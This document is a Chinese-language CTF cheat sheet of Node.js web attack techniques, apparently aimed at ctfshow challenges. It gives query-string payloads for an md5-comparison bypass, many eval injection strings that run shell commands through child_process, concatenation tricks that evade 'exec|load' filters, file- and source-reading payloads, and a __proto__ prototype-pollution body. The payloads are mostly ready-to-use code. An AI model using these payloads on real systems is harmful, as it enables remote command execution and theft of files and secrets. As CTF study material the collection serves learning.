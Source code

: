 ## **函数特性**
```
Character.toUpperCase()函数，字符ı会转变为I，字符ſ会变为S
Character.toLowerCase()函数，字符İ会转变为i，字符K会转变为k
```

绕过md5
```
 if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);

?a[x]=1&b[x]=2或者a[:]=1&b[:]=1
?a[x]=1&b[x]=2 相当于是说，a和b都是引用数据类型（对象类型），
a={'x':'1'}
b={'x':'2'}
那么在 a+flag和 b+flag 时，他们的结果就会都是［objectObject]flag{xxx}，那么md5值自然就是一样的了。
```


^
## **eval命令执行**

```
eval(require("child_process").execSync('ls'))


?eval=require("child_process").execSync('ls')

?eval=require('child_process').execSync('ls').toString()

?eval=require("child_process")['exe'%2B'cSync']('ls')

?eval=require('child_process').spawnSync( 'ls', [ './' ] ).stdout.toString()

?eval=global.process.mainModule.constructor._load('child_process').execSync('ls')
```
```
//读文件夹，读文件函数
?eval=require('fs').readdirSync(".")
?eval=require('fs').readFileSync('./fl00g.txt','utf8');
```
```
//字符串拼接
?eval=var s='global.process.mainModule.constructor._lo';var b="ad('child_process').ex";var c="ec(%27ls>public/1.txt%27);";eval(s%2Bb%2Bc)%3B
```

^
有过滤exec|load。函数evalstring.search(/exec|load/i)
```
构造exec
?eval=require("child_process")['exe'%2B'cSync']('ls')

?eval=require( 'child_process' ).spawnSync( 'ls', [ '.' ] ).stdout.toString()
?eval=require( 'child_process' ).spawnSync( 'cat', [ 'f*' ] ).stdout.toString()
```

查看目录和源码
```
?eval=__filename 可以看到路径为/app/routes/index.js 
?eval=__dirname  看到/app/routes/
?eval=require('fs').readFileSync('/app/routes/index.js', 'utf-8')   查看源码
```



^
## **原型链污染**
类似于merge函数用于合并两个或多个对象的属性，将一个或多个源对象的属性复制到目标对象上。
可能造成原型链污染。
```
 var secert = {};
 let user = {};
 utils.copy(user,req.body);  //这里的copy类似merge函数
  if(secert.ctfshow==='36dboy'){
    res.end(flag);
  }
```
已知secert是对象类型，secert会继承类Object。
```
如果在secert继承到Object中的一个类有ctfshow属性值为36dboy，
那么secert.ctfshow值也为36dboy。

又每一个对象都有__proto__属性，结合copy函数，最终回溯到Object类，定义了一个ctfshow值为36dboy
```
于是POST传递请求体
```
{"__proto__":{"ctfshow":"36dboy"}}
```



^
